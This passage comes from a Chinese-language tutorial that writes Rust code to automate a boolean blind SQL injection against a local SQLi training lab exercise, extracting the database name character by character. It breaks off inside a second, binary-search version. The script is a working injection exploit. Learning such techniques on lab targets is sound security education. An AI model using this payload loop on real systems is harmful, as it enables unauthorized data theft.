 ```rust
}
```

可以看到输出为：
```shell
Yes! You are in!
```

如果不关注语法细节，整体的理解起来还是很简单的。而且没有 Golang 那样的编码问题。

### 完整的代码

与 Python 的逻辑类似，没有什么不同的地方。

PS: 此处使用闭包来测量函数执行的时间。

```rust
use std::time::Instant;

const BASE_URL: &str = "http://192.168.3.104/Less-8/?id=";
const MARK: &str = "You are in";

// https://stackoverflow.com/a/25182801/8587335
fn measure_time<F: FnOnce()>(name: String, func: F) {
    let start = Instant::now();
    func();
    let duration = start.elapsed();
    println!("Time elapsed in {} is: {:?}", name, duration);
}

fn probe_database_linear() -> Result<String, Box<dyn std::error::Error>> {
    let mut db_name = String::new();

    let sql_payload = "database()";

    let mut j = 1;
    let mut exit_flag = false;
    while !exit_flag {
        // always assume we will exit in this loop
        exit_flag = true;

        for i in 32u8..127u8 {
            let payload = format!(
                "1' and ascii(substr({},{},{}))={} --+",
                sql_payload, j, j, i
            );
            let url = format!("{}{}", BASE_URL, payload);
            let r = reqwest::blocking::get(url)?;
            let body = r.text()?;
            if body.contains(MARK) {
                db_name.push(i as char);
                println!("database: {}", db_name);
                exit_flag = false;
                break;
            }
        }
        j += 1;
    }

    Ok(db_name)
}

fn probe_database_binary() -> Result<String, Box<dyn std::error::Error>> {
    let mut db_name = String::new();

    let sql_payload = "database()";
```